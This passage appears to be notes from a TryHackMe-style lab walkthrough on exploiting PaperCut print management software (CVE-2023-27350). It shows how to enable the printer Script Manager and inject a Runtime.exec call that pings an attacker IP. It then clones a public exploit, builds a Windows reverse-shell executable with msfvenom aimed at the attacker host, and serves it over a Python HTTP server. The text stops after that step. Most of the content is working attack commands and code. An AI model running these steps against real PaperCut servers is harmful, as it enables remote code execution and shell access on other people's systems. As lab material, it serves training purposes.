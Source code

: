 The feature in question that can be leveraged in the PaperCut application for remote code execution is the **Script Manager** for printers. You can navigate to this section as follows:

```
1. click on printers
2. click on [Template printer]
3. click on Scripting tab
4. check the "Enable print script"

------------------------------------------
// Customize your print process with Print Scripting.  
// You don't have to be a programmer to use Print Scripting.  
// Use one of the many pre-written recipes
// already written for you, or write your own in 
// JavaScript using snippets and reference documentation.
//
function printJobHook(inputs, actions) {
  // your script here
}
------------------------------------------
```

attacker terminal
```
tcpdump -i ens5 icmp
```

```java
function printJobHook(inputs, actions) { 
	// your script here 
} 
java.lang.Runtime.getRuntime().exec('ping.exe 10.10.69.242');
```
hit apply
check terminal for pings


### attack

Now that we understand both the authentication bypass and the remote code execution, we can combine this to get a shell on the host. If you are unfamiliar with using tools such as **Metasploit**, it is recommended that you first complete [this](https://tryhackme.com/module/metasploit) module. For this step, we will use the publicly available exploit from [Horizon3AI](https://www.horizon3.ai/papercut-cve-2023-27350-deep-dive-and-indicators-of-compromise/), that can be downloaded from this [repo](https://github.com/horizon3ai/CVE-2023-27350/tree/main). Run 
```
# to download the exploit
git clone https://github.com/horizon3ai/CVE-2023-27350
```

msfvenom 
```
msfvenom -p windows/shell/reverse_tcp -f exe LHOST=10.10.69.242 LPORT=4444 -o shell.exe
```

python HTTP server
```
python3 -m http.server 8080
```
